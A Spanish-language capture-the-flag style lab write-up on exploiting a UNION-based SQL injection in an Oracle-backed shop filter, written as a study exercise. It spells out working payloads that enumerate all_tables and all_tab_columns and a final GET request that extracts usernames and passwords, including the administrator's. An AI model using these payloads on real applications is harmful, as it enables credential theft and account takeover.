





# Lab 10: SQL injection attack, listing the database contents on Oracle

**Nivel:** Practitioner
**Estado:** ✅ Solved

## Descripción

Misma lógica que el laboratorio 9 (enumerar esquema y extraer credenciales sin conocerlas de antemano), pero aplicado a **Oracle**, donde las tablas de sistema son distintas y aplican las restricciones de sintaxis propias de este motor (ver Lab 7).

## Metodología

1. Se confirmó el número de columnas y la columna de texto con:
   ```
   Tech+gifts' UNION SELECT 'a',NULL FROM dual--
   ```

2. **Primer intento fallido:** se intentó enumerar tablas combinando por error la sintaxis de MySQL (`information_schema.tables`) con la tabla `dual` de Oracle:
   ```
   UNION SELECT table_name,NULL FROM information_schema.tables DUAL--   ← 500 Internal Server Error
   ```

   

   **Causa del error:** Oracle no tiene `information_schema` (es exclusivo de MySQL/SQL Server/PostgreSQL), y `dual` solo debe usarse cuando no se consulta ninguna tabla real — aquí sí se estaba consultando una tabla, así que sobraba.

3. **Corrección:** en Oracle, el catálogo de tablas se consulta con `all_tables`:
   ```
   Tech+gifts' UNION SELECT table_name,NULL FROM all_tables--
   ```
   Se identificó la tabla `USERS_PQJXDE`.

   

4. **Enumeración de columnas** con `all_tab_columns`:
   ```
   Tech+gifts' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_PQJXDE'--
   ```
   Se identificaron las columnas `USERNAME_JCGFLZ` y `PASSWORD_QJYJJH`.

   

5. **Extracción final:**
   ```
   Tech+gifts' UNION SELECT USERNAME_JCGFLZ,PASSWORD_QJYJJH FROM USERS_PQJXDE--
   ```

   

## Payload final

```
GET /filter?category=Tech+gifts'+UNION+SELECT+USERNAME_JCGFLZ,PASSWORD_QJYJJH+FROM+USERS_PQJXDE--
```

## Resultado

Se extrajeron las credenciales de los tres usuarios de la tabla (`administrator`, `carlos`, `wiener`). Con la contraseña del administrador se inició sesión exitosamente.



## Conclusión

Este laboratorio reforzó que **las técnicas de enumeración de esquema no son portables entre motores de base de datos**: `information_schema` (MySQL/SQL Server) no existe en Oracle, que usa sus propias vistas de catálogo (`all_tables`, `all_tab_columns`). Reconocer el motor de base de datos correctamente (lab 7/8) es un paso previo indispensable antes de intentar enumerar su esquema.
